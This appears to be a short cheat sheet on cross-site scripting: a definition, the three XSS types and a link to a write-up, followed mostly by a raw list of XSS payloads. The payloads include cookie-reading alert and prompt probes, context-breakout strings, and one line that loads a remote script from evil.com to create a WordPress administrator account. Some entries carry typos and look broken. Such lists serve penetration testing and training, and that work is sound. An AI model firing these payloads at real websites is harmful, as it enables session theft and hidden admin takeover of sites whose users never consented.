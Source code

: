 
##### Cross Site Scripting
Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

Types of xss :

1. Stored XSS (AKA Persistent or Type I)
2. Reflected XSS (AKA Non-Persistent or Type II)
3. DOM Based XSS (AKA Type-0)

https://sapt.medium.com/stored-xss-non-privileged-user-to-anyone-using-qr-code-dfeb0bd98a5

Payload

    onclick=prompt(document.cookie);
    
    </title><svg onload="alert(1)"></title>
    
    <textarea>hi</textarea><svg onload="alert(1)"></textarea>
    
    <script> let q= 'hi</script><svg onload="alert(1)">';</script>
    
    <script>alert("1")</script>
    
    <select><option value="1">en</option></select><svg onload="alert(1)"></option></select>
    
    qwe<mg src="1>
    
    "><img src=x onerror=alert(document.cookie)>
    
    " oneerror="alert(1337)">qwe
    
    car<img src=1 with="" color=""black=""onerror=alert(1)>
    
    <script src="http://evil.com/wordpress_create_admin_user.js"></script>

